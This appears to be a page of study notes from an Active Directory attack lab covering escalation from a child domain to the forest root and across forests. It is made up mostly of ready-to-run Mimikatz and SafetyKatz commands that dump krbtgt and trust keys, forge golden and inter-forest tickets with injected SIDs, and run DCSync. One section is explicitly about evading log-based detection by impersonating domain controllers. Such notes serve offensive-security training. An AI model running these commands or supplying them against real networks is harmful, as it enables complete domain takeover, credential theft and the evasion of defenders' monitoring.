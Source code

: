 ### Child to parent using krbtgt hash -

* We will abuse sIDhistory once again

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /sids:S-1-5-21-335606122-960912869-3279953914-519 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"
```

* In the above command, the mimkatz option "/sids" is forcefully setting the sIDHistory for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group.

**On any machine of the current domain - (the below commad will be suspicous amd will be detected if anyone was watching over the logs | very noisy)**

```
Invoke-Mimikatz -Command '"kerberos::ptt C:\AD\Tools\krbtgt_tkt.kirbi"'
ls \\mcorp-dc.moneycorp.local.kirbi\c$
gwmi -class win32_operatingsystem -ComputerName mcorpdc.moneycorp.local
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```

**BUT, WE CAN AVOID DETECTION USING THE BELOW METHOD -->**

Avoid suspicious logs by using Domain Controllers group -

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:dcorp-dc$ /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /groups:516 /sids:S-1-5-21-280534878-1496970234-700767426-516,S-1-5-9 /krbtgt:4e9815869d2090ccfca61c1fe0d23986 /ptt" "exit"

C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit" [DCSync because two DCs are allowd to sync!, so no detection!]
```

* **S-1-5-21-2578538781-2508153159-3419410681-516 - Domain Controllers**
* **S-1-5-9 - Enterprise Domain Controllers**

### Across Forest using Trust Tickets -

* Once again, we require the trust key for the inter-forest trust.

```
Invoke-Mimikatz -Command '"lsadump::trust /patch"'
Or
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

* An inter-forest TGT can be forged.

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /rc4:2756bdf7dd8ba8e9c40fe60f654115a0 /service:krbtgt /target:eurocorp.local /ticket:C:\AD\Tools\trust_forest_tkt.kirbi" "exit" 
```
